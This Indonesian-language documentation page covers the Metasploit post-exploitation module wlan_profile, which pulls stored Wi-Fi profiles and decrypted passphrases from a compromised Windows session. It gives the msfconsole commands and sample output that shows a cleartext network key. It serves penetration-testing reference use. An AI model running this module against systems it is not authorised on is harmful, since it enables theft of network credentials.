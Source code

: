 # wlan_profile 

Modul ini mengekstrak profil `LAN` nirkabel yang tersimpan. Modul ini juga akan mencoba mendekripsi materi kunci jaringan. Perilaku sedikit berbeda antar versi sistem operasi untuk `WPA`. Pada `Windows Vista/7`, kita akan mendapatkan frasa sandi (`passphrase`). Pada `Windows XP`, kita akan mendapatkan kunci turunan `PBKDF2`.

## Penulis
- theLightCosine theLightCosine@metasploit.com

## Platform
- `Windows`

## Cara Penggunaan di Metasploit

```
use post/windows/wlan/wlan_profile
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[+] Wireless LAN Profile Information 
GUID: {28b9c93f-a298-45f8-b88c-8f898895ee2b} Description: Realtek 8814AU Wireless LAN 802.11ac USB NIC State: The interface is not connected to any network.
 Profile Name: COMPASS CIKARANG
<?xml version="1.0"?>
<WLANProfile xmlns="http://www.microsoft.com/networking/WLAN/profile/v1">
	<name>COMPASS CIKARANG</name>
	<SSIDConfig>
		<SSID>
			<hex>434F4D504153532043494B4152414E47</hex>
			<name>COMPASS CIKARANG</name>
		</SSID>
	</SSIDConfig>
	<connectionType>ESS</connectionType>
	<connectionMode>auto</connectionMode>
	<MSM>
		<security>
			<authEncryption>
				<authentication>WPA2PSK</authentication>
				<encryption>AES</encryption>
				<useOneX>false</useOneX>
			</authEncryption>
			<sharedKey>
				<keyType>passPhrase</keyType>
				<protected>false</protected>
				<keyMaterial>qwerty12345</keyMaterial>
			</sharedKey>
		</security>
	</MSM>
	<MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3">
		<enableRandomization>false</enableRandomization>
	</MacRandomization>
</WLANProfile>

[*] WlanAPI Handle Closed Successfully
[*] Post module execution completed
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/post/windows/wlan/wlan_profile/)
